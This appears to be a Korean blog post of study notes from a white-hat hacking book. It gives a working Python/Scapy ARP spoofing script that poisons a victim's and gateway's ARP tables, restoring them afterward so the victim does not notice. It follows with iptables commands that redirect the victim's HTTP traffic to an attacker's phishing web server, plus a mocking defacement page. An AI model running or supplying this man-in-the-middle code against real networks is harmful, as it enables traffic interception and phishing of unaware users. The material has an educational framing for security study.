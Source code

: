 ```yaml
---
title: "Cryptography: 스푸핑"
last_modified_at: 2020-10-13T00:26:02-05:00
categories:
  - Cryptography
tags:
  - 암호학
  - 파이썬
  - 암호와 해킹 1판
toc: true 
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true 
author_profile: true 
read_time: false 
---
```


`이 게시물은 화이트해커를 위한 암호와 해킹 1판을 참고하여 작성하였습니다.`

---
### ARP 스푸핑을 구현해보자
---



```python
from scapy.all import *
from time import sleep
#from scapy.layers.12 import Ether, ARP

def getMAC(ip): #맥주소를 얻는 과정 
    ans, unans = srp(Ether(dst='ff-ff-ff-ff-ff-ff')/ARP(pdst=ip), timeout=5, retry=3)
    for s, r in ans:
        return r.sprintf('%Ether.src%')
        
def poisonARP(srcip, targetip, targetmac):
    arp=ARP(op=2, psrc=srcip, pdst=targetip, hwdst=targetmac)
    #arp reply를 srcip 주소로 targetip에 전송하여 목적지 mac주소를 targetmac으로 지정
    send(arp)
  
def restoreARP(victimip, gatewayip, victimmac, gatewaymac):
    #피해를 입었는지 모르게 복구
    arp1=ARP(op=2, psrc=gatewayip, pdst=victimip, hwdst='ff-ff-ff-ff-ff-ff', hwsrc=gatewaymac)
    #arp1은 희생자 컴퓨터의 ARP 테이블에서 게이트웨이 MAC주소를 원래대로 복구하기 위한 ARP패킷
    arp2=ARP(op=2, psrc=victimip, pdst=gatewayip, hwdst='ff-ff-ff-ff-ff-ff', hwsrc=victimmac)
    #arp2는 게이트웨이 ARP 테이블에서 피해 컴퓨터의 MAC 주소를 원래대로 복구하기 위한 ARP패킷
    send(arp1, count=3)
    send(arp2, count=3)

def main():
    gatewayip='192.168.0.1'
    victimip ='192.168.0.234'
    
    victimmac=getMAC(victimip) #맥주소를 얻어온다.
    gatewaymac=getMAC(gatewayip)
    
    if victimmac == None or gatewaymac == None: #맥주소를 얻는데 실패했을 경우
        print('MAC주소를 찾을 수 없습니다')
        return
    print('ARP Spoofing start -> Victim IP [%s]' %victimip) #맥주소를 얻었을 경우
    print('[%s]: Poison ARP Table [%s] -> [%s]' %(victimip, gatewaymac, victimmac))
    
    try:
        while True:
            poisonARP(gatewayip, victimip, victimmac) #스푸핑을 시작한다
            poisonARP(victimip, gatewayip, gatewaymac)
            sleep(3)
    except KeyboardInterrupt:
        restoreARP(victimip, gatewayip, victimmac, gatewaymac)
        print('ARP Spoogin done -> Restored ARP Table')
        
if __name__ == '__main__':
    main()
```

실험이 잘 안되었다. 다음에 리눅스를 활용하여 실험까지도 해보자
{: .notice}

```
Begin emission:
.............Begin emission:
.......Begin emission:
................Begin emission:
.*
Received 38 packets, got 1 answers, remaining 0 packets
Begin emission:
......Begin emission:
.....Begin emission:
.....Begin emission:
........
Received 24 packets, got 0 answers, remaining 1 packets
MAC주소를 찾을 수 없습니다
```


---
### ARP 스푸핑으로 피싱 사이트 유도하기
---

공격자는 자신의 컴퓨터에서 IP 테이블을 조작하여 피해 컴퓨터로부터 전달된 네트워크 데이터를 특정 사이트로 리다이렉션 할 수 있습니다.   
공격자가 웹서버를 운영하고 있다면 피해 컴퓨터로 부터 전달되는 HTTP 패킷을 공격자의 웹서버로 리다이렉션이 가능합니다.  
{: .notice}

먼저 웹 서버의 다큐먼트 루트에 index.html을 다음과 같이 추가한다.
{: .notice}

```html
<html>
	<center>
	<h1> HELLO! WELCOME TO MY SITE </h1>
	<h3> Your Computer is SPOOOOOOOFED!</h3>
	<img src="anonymous.jpg"/>
	</center>
</html>
```

공격자 컴퓨터의 IP 테이블을 다음 명령으로 수정한다.
{: .notice}

```
iptables -t nat -F
iptables -Z			#라우팅테이블 초기화
iptables -A FORWARD -i eth0 -j ACCEPT #eth0로 들어오는 모든 패킷 허용
ipatbles -t nat -A POSTROUTING -o eth0 -j MASQUERADE #컴퓨터의 사설 IP주소를 게이트웨이의 외부 IP 주소로 변경하게 한다.
iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination <공격자 웹 서버 IP>
#LAN 외부에서 80번 포트로 들어오는 모든 HTTP 연결을 별개의 네트워크에 있는 HTTP 서버로 라우팅한다.
```

---
### IP 스푸핑으로 피싱 사이트 유도하기
---

* **IP 스푸핑을 통해 수행되는 공격**
* Syn Flooding 공격
* 커넥션 가로채기
* 순서제어번호 추측 공격
* 접속 끊기 공격
{: .notice}

IP 주소를 위조하여 Ping을 보내보자.
{: .notice}
